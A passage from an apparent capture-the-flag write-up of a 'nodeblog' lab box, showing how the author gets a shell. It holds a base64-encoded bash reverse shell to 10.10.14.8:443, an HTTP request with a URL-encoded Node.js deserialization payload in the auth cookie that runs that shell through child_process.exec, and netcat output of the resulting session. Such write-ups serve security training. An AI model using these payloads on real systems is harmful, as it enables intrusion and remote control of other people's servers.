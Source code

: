 #### Shell

I played with a few things, but ended up getting a base64 encoded bash reverse shell to work. I created it in my own terminal:

```

oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg==

```

Then tested that it worked by running and making sure it connected:

```

oxdf@parrot$ echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0MyAwPiYxCg==|base64 -d|bash

```

Then reset `nc` and put the payload into the GET request:

```

GET / HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: auth=%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%34%4c%7a%51%30%4d%79%41%77%50%69%59%78%43%67%3d%3d%7c%62%61%73%65%36%34%20%2d%64%7c%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%7d%29%3b%7d%28%29%22%7d
Upgrade-Insecure-Requests: 1
Set-GPC: 1

```

On sending in Repeater, I got a shell:

```

oxdf@parrot$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.139 38464
bash: cannot set terminal process group (849): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
admin@nodeblog:/opt/blog$

```
